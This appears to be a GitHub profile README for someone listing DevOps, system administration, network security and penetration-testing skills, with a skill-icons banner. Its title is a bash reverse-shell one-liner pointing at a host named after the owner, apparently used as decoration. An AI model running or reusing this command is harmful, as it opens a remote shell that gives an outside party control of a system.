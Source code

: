 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

♾️ Devops

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing


   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=azure,aws,docker,git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>

